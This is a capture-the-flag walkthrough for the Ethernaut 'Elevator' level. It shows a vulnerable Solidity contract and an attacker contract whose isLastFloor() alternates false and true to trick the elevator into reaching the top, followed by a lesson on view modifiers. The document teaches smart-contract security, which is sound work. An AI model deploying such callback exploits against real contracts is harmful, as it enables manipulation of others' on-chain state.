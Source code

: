 # Hello Ethernaut

## Challenge Description

This elevator won't let you reach the top of your building. Right?

##### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint) external returns (bool);
}

contract Elevator {
    bool public top;
    uint public floor;

    function goTo(uint _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## Challenge Solution Walkthrough

In this challenge, we exploit the `Elevator` contract by creating our own `Building` contract with a modified `isLastFloor()` function. We call the `goTo()` function of the `Elevator` contract while controlling the behavior of `isLastFloor()` to bypass the condition and move the elevator to the top floor.

Here's an example implementation of the `Building` contract:

```solidity
pragma solidity ^0.8.0;

import "./Elevator.sol";

contract Building {
    Elevator public elevator;
    bool public entered = true;

    constructor(address elevatorAddress) {
        elevator = Elevator(elevatorAddress);
    }

    function solveChallenge() public {
        elevator.goTo(1);
    }

    function isLastFloor(uint256) external returns (bool) {
        entered = !entered;
        return entered;
    }
}
```

The `Building` contract has a `solveChallenge()` function that calls the `goTo()` function of the `Elevator` contract with a desired floor value (in this case, 1).

Inside the `Building` contract, we implement our own `isLastFloor()` function. This function toggles the value of the `entered` variable and returns it. By doing so, we make the `isLastFloor()` function return `false` the first time it's called, which allows us to pass the `if` statement in the `Elevator` contract. On subsequent calls, it returns `true`, which satisfies the `top = building.isLastFloor(floor)` condition.

By executing the `solveChallenge()` function of the `Building` contract, we trigger the modified `isLastFloor()` function and bypass the condition in the `Elevator` contract. As a result, the elevator moves to the top floor.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.

